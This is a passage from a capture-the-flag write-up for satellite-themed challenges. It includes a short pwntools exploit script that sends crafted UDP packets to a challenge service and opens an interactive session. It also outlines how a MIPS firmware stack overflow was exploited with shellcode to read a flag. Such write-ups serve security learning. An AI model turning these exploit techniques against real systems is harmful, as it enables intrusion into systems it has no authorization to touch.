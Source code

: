 ```py
from pwn import *

rr = remote("lucky-tree.satellitesabove.me", 5008)
rr.sendlineafter("Ticket please:", "ticket{...}")

rr.recvuntil("Starting up Service on udp:")
ip = rr.recvuntil(":", drop=True)
port = int(rr.recvline().strip())

r = remote(ip, port, typ='udp')

def send_command(ver, typ, id):
   r.send(p16(ver) + p16(typ) + p32(id))
   print(r.clean(timeout=0).decode(), end='')

for i in range(255):
   send_command(1, 1, 0x100000000 - 8)

send_command(1, 1, 9)

r.interactive()

```

## Mongoose Mayhem

Solved by trupples, but unfortunately I did not manage my time well enough to do a detailed explanation, though I really enjoyed this task. It was quite cool and complex! The steps I took boil down to:
1. properly load the ROM in your favourite decompiler (I initially tried IDA but Ghidra managed the control flow better), keeping in mind that the firmware does virtual memory mapping
2. understanding the communications protocol: all valid packets start with A5 5A and 63 bytes of data, which are interpreted as: one command id byte, a checksum byte (the sum of all packet bytes must be congruent to -1 mod 256), and 61 bytes of arbitrary data.
3. Analyse the 8 commands, one of which (id=5) is vulnerable to a stack-based buffer overflow, allowing us to overwrite the return pointer to control code flow. Since the emulated processor does not have any Data Execution Prevention, we can...
4. Write MIPS shellcode to access the flag device and send it to us via UART. A notable difficulty was managing far jumps, as well as the 4-byte code alignment MIPS expects. The "normal" MIPS jump command only changes the lower 26 bits of the address, while the bits of shellcode were in completely different regions of memory.  

The solver script is available at the link found at the beginning of this document. It contains some commented shellcode attempts, partially documenting my journey.

## Grade F Prime Beef

*Writeup by trupples*

This challenge consists in using an [F prime](https://nasa.github.io/fprime/) application to run commands on a remote satellite and read secret data from its system.
